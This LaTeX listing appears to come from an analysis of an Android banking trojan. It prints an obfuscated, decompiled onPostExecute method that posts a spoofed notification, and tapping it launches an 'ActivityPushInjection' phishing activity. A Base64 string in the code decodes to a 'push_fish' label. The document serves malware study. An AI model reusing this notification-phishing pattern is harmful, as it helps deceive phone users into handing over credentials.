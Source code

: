 \documentclass[10pt,titlepage]{article}
\begin{document}
\begin{lstlisting}[label=activitypushinjectiononpostexecute,caption=The onPostExecute function spawns a notification with a cusom icon and the \textit{naqsl/ebxcb.exu.Activity.ActivityPushInjection} activity as PendingIntent by calling the \textit{android.app.NotificationManager.notify} function.,frame=tb]
        public void onPostExecute(Bitmap bitmap) {
            super.onPostExecute(bitmap);
            try {
                Cint intR = ServiceModuleNotification.this.f586fddo;
                Context context = this.f587fddo;
                Cint intR2 = ServiceModuleNotification.this.ifdf;
                intR.ifdf(context, Cint.m430int("c3RyX3B1c2hfZmlzaA=="), this.f422new);
                Intent intent = new Intent(
                                     ServiceModuleNotification.this, 
                                     ActivityPushInjection.class);
               [..]               
               if (VERSION.SDK_INT <= 25) {
                    NotificationManager notificationManager = 
                       (NotificationManager) this.f587fddo.getSystemService("notification");
                    Builder defaults = new Builder(this.f587fddo)
                    .setContentIntent(
                           PendingIntent
                              .getActivity(this.f587fddo, 100, addFlags, 1073741824)
                        )
                       .setContentTitle(this.ifdf)
                       .setContentText(this.f420for)
                       .setVibrate(new long[]{1000, 1000, 1000, 1000, 1000})
                       .setPriority(1).setDefaults(2)
                       .setDefaults(1).setDefaults(4);
                    Resources resources = this.f587fddo.getResources();
                    StringBuilder sb = new StringBuilder();
                    sb.append(this.f587fddo.getPackageName());
                    Cint intR4 = ServiceModuleNotification.this.ifdf;
                    sb.append(Cint.m430int("Om1pcG1hcC9pY19sYXVuY2hlcg=="));
                    Notification build = defaults
                          .setSmallIcon(resources.getIdentifier(sb.toString(), null, null))
                          .setLargeIcon(bitmap).build();
                    build.flags |= 16;
                    notificationManager.notify(1, build);
                    return;
                }
                ServiceModuleNotification.this.f586fddo
                      .fddo(this.f587fddo, addFlags, bitmap, this.ifdf, this.f420for);
            } catch (Exception unused) {
            }
        }
    }
\end{lstlisting}
\end{document}
